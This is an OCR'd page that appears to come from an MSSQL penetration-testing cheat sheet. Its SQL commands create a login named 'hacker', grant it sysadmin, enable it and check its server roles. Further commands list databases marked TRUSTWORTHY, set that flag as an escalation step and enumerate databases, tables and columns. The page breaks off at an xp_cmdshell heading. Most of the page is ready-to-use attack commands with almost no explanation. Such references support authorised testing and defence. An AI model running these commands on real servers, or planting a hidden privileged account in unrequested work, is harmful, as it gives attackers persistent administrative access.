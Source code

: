 Create user

```sql
EXEC master..sp_addlogin hacker, secret;
```

Create user with sysadmin privs

```sql
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';
EXEC sp_addsrvrolemember 'hacker', 'sysadmin';
```

Login as the newly created user

```sql
ALTER LOGIN hacker ENABLE ;
GO
ALTER LOGIN hacker WITH PASSWORD = 'P@ssword123!';
GO
```

Check current user priv

```sql
SELECT is_srvrolemember('sysadmin');
SELECT is_srvrolemember('dbcreator');
SELECT is_srvrolemember('bulkadmin');
SELECT is_srvrolemember('diskadmin');
SELECT is_srvrolemember('processadmin');
SELECT is_srvrolemember('serveradmin');
SELECT is_srvrolemember('setupadmin');
SELECT is_srvrolemember('securityadmin');
```

## 4.2. Databases

> Show trustworthy databases

```sql
SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name;
```

> Set database as trustworthy

```sql
ALTER DATABASE DatabaseName SET TRUSTWORTHY ON;
```

> Manual

```sql
SELECT name FROM master.dbo.sysdatabases #Get databases;
SELECT table_name FROM DATABASE_NAME.INFORMATION_SCHEMA.TABLES; #Get tables names;
SELECT table_catalog,table_name FROM DATABASE_NAME.INFORMATION_SCHEMA.columns; #Get columns names;
```

## 4.3. xp_cmdshell
